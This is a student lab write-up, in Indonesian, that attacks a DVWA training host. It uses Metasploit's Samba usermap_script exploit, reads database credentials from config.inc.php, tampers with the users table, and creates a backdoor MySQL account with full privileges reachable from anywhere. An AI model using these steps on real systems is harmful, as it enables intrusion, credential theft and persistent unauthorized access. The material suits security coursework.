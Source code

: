# Tugas Final Project

### Anggota Kelompok

|Nama      |NRP    |
|---|---|
Rian Danis  | 5114100084
Naufan Arifie | 5114100136
Dimas Hirda P | 5114100147


### DVWA
  ### Lesson 4
  #### 1. Login ke dvwa, dengan default password "password"
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/dvwa%20login.PNG)
  #### 2. Setting security level menjadi "low"
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/security%20low.PNG)
  #### 3. Ping melalui command execution
  Hal ini dilakukan untuk memastikan dvwa kita terhubung
  
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/Command%20Execution%20Try.PNG)  
  
  #### 4. Buka Metasploit Framework di Kali Linux
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/MEtasploit%20framework.PNG)  
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/Open%20Metasploit.PNG)
  
  #### 5. Gunakan Metasploit untuk connect
  
  ```bash
   use exploit/multi/samba/usermap_script
   ```
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/Command%20usermap_script.PNG)
  
  #### 6. Set RHOST menggunakkan IP dvwa
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/Set%20RHOST.PNG)
  
  #### 7. Lakukan exploit
  Jika berhasil akan muncul seperti gambar dibawah ini
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/Exploit.PNG)
  
  #### 8. Cek apakah kita sudah masuk ke dalam server dvwa
  ``` bash
  whoami
  ```
  command di atas akan memberitahukan kita masuk sebagai apa di dalam server.
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/whoami_dkk.PNG)
  
  #### 9. Cek permission dan isi dari folder dvwa
  ```bash
  ls -ld /var/www/dvwa
  ```
  ```bash
  ls -l /var/www/dvwa
  ```
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/explore%20process.PNG)

  #### 10. Buka folder config, dan file config.inc.php
  
  Dari hasil diatas terlihat adanya folder config, folder ini akan di eksplorasi selanjutnya
  ```bash
  ls -l /var/www/dvwa/config
  ```
  Kemudian buka file config.inc.php yang isinya akan menunjukkan username dan password dari database
  ```bash
  car /var/www/dvwa/config/config.inc.php
  ```
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/get%20password.PNG)
  
  dari situ terlihat username "root" dan passwordnya kosong
  
  #### 11. Uji coba dengan melakukan manipulasi database dvws
  
  ##### Melihat list database
  ```sql
  echo "show databases;" | mysql -u root;
  ```
  ##### Melihat tabel dari database
  ```sql
  echo "use dvwa; show tables;" | mysql -u root
  ```
  ##### Menjalankan query
  ```sql
  echo "select * from dvwa.users;" | mysql -u root
  ```
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/explore%20databases.PNG)
  
  ##### Memasukkan data baru
  ```sql
  echo "insert into dvwa.users values('7','Faiq','Firdausy','shinigami',
  MD5('123'), 'NA');" | mysql -u root
  ```
  Syntax yang digunakan layaknya sql pada umumnya.
  
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/insert.PNG)
  
  terlihat data yang dimasukkan melalui metasploit ada di record terakhir.
  
  #### 12. Uji coba mysql
  
  ##### Membuat user baru Mysql
  ```sql
  echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'db_hacker'@'%'
  IDENTIFIED BY 'abc123' WITH GRANT OPTION;" | mysql -u root
  ```
  Command tersebut akan membuat user baru yang memiliki segala privileges dan membuat kita
  dapat mengakses darimanapun dan kapanpun
  
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/add%20db_hacker.PNG)
  
  ##### Pembuktian dengan mengakses mysql di host dvwa melalui terminal baru
  
  ```sql
  mysql -u db_hacker -h 192.168.1.32 -p
  ```
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/login%20db_hacker.PNG)  
  
  setelah berhasil login, coba untuk melihat database.
  
  ![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%204/show%20databases%20db_hacker.PNG)
  
  
  
